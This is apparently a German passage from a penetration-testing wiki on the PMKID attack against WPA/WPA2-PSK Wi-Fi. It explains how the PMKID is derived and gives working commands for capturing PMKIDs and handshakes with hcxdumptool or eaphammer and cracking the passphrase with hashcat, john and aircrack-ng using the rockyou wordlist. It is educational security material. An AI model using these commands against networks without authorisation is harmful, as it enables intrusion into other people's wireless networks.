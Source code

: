 **Tritt uns bei** [**Discord**](https://discord.com/invite/N3FrSbmwdy) bei und beginne noch heute mit den besten Hackern zusammenzuarbeiten!

***

## WPA/WPA2 PSK

### PMKID

Im Jahr 2018 enthüllte **hashcat** [eine neue Angriffsmethode](https://hashcat.net/forum/thread-7717.html), die einzigartig ist, weil sie nur **ein einzelnes Paket** benötigt und keine Clients benötigt, die mit dem Ziel-AP verbunden sind – nur Interaktion zwischen dem Angreifer und dem AP.

Viele moderne Router fügen ein **optional Feld** zum **ersten EAPOL**-Frame während der Assoziation hinzu, bekannt als `Robust Security Network`. Dies umfasst die `PMKID`.

Wie der ursprüngliche Beitrag erklärt, wird die **PMKID** mit bekannten Daten erstellt:
```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
Angesichts der Tatsache, dass der "PMK-Name" konstant ist, kennen wir die BSSID des AP und der Station, und das `PMK` identisch mit dem aus einem vollständigen 4-Wege-Handshake ist, kann **hashcat** diese Informationen nutzen, um den PSK zu knacken und das Passwort wiederherzustellen!

Um diese Informationen zu **sammeln** und das Passwort lokal zu **bruteforcen**, können Sie Folgendes tun:
```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
Die **erfassten PMKIDs** werden in der **Konsole** angezeigt und auch **gespeichert** in \_ **/tmp/attack.pcap**\_\
Jetzt, konvertiere die Erfassung in **hashcat/john** Format und knacken es:
```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Bitte beachten Sie, dass das Format eines korrekten Hashs **4 Teile** enthält, wie: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838`. Wenn Ihrer **nur** **3 Teile** enthält, ist er **ungültig** (der PMKID-Capture war nicht gültig).

Beachten Sie, dass `hcxdumptool` **auch Handshakes erfasst** (etwas wie dies wird erscheinen: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). Sie könnten die **Handshakes** in **hashcat**/**john**-Format mit `cap2hccapx` **umwandeln**.
```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```
_Ich habe festgestellt, dass einige Handshakes, die mit diesem Tool erfasst wurden, nicht geknackt werden konnten, selbst wenn das richtige Passwort bekannt war. Ich empfehle, Handshakes auch auf traditionelle Weise zu erfassen, wenn möglich, oder mehrere davon mit diesem Tool zu erfassen._
